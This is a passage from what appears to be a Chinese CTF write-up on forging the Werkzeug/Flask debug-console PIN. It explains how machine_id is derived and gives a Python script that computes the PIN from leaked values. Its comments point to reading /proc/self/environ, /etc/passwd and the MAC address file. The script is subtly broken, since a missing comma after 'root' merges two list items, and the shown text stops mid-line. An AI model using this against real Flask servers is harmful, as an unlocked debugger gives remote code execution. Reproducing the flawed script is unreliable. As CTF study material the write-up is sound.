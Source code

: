 可以看到得到**machin_id**的逻辑是(一般题目都是linux环境，所以暂不讨论windows环境下，遇到了再补充)

> 首先尝试打开`/proc/self/cgroup`
>
> 如果有这个文件
>
> ​		`value = value.strip().partition("/docker/")[2]`找出**docker**字段后面的值存为value(**必须含docker字段**)
>
> ​		value存在直接**retuen**，返回**machin_id**，不存在进行下一步
>
> 如果没有这个文件
>
> ​		先尝试打开`/etc/machine-id`
>
> ​		如果有这个文件，且里面有值，直接取出**return**，返回**machin_id**
>
> ​		如果没有这个文件，再尝试打开`/proc/sys/kernel/random/boot_id`，存在且有值便**return**

再提一句，python3以前的得到的路径和python3之后稍有区别

```py
py3以前  形如 /usr/local/lib/python2.7/dist-packages/flask/app.pyc
py3以后  形如 /usr/local/lib/python3.8/site-packages/flask/app.py
而我的wsl(py3.8)
/usr/local/lib/python3.8/dist-packages/Flask-2.2.2-py3.8.egg/flask/app.py (说不好有奇怪出题人也是这个路径呢)
```

伪造脚本

```py
#md5
import hashlib
from itertools import chain
probably_public_bits = [
    'root'			#cat /proc/self/environ 看LOGNAME的值 or /etc/passwd 最后一个
    'flask.app',	#默认不变
    'Flask',		#默认不变
    '/usr/local/lib/python2.7/dist-packages/flask/app.pyc' 
]

private_bits = [
    '274973438824773', #cat /sys/class/net/eth0/address 十六进制转十进制
    'f855a4d03e8442aa92d2813dfc0bf8c3'
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
```